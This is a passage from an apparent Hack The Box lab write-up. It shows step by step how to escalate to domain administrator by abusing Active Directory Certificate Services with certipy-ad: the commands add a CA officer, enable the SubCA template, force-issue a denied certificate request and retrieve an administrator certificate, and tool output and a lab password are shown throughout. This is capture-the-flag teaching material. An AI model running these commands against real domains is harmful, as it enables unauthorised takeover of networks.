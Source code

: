 ```powershell
WindowsProductName                                      : Windows Server 2019 Standard
WindowsVersion                                          : 1809
```
Enumerate principal rights with `certify.exe`

![manager5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/07a54637-4a5a-4ac5-adbf-0cbfcdc83654)

It seems user `raven` has privileges to manage the CA. A walkthrough to exploit this vulnerability can be found here: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2
First step is to grant yourself the Manage Certificates access right by adding your user as a new officer.
```markdown
> /usr/bin/certipy-ad ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.142.151 -add-officer raven

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```
The SubCA template can be enabled on the CA with the `-enable-template parameter`. By default, the SubCA template is enabled.
```markdown
> /usr/bin/certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```
We start by requesting a certificate based on the SubCA template. This request will be denied, but we will save the private key and note down the request ID. make sure you are running the command from a directory where you have writing rights, otherwise the `.key` will not be written.
```markdown
> /usr/bin/certipy-ad req -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -target manager.htb -template SubCA -upn administrator@manager.htb

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 21
Would you like to save the private key? (y/N) y
[*] Saved private key to 21.key
[-] Failed to request certificate# we can then issue the failed certificate request with the ca command and the -issue-request <request ID> parameter
> /usr/bin/certipy-ad ca -ca 'manager-DC01-CA' -issue-request 21 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

[*] Successfully issued certificate
```
In this case, private key is saved as `21.key`. Next, retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
```markdown
> /usr/bin/certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 21
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 21
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '21.key'
```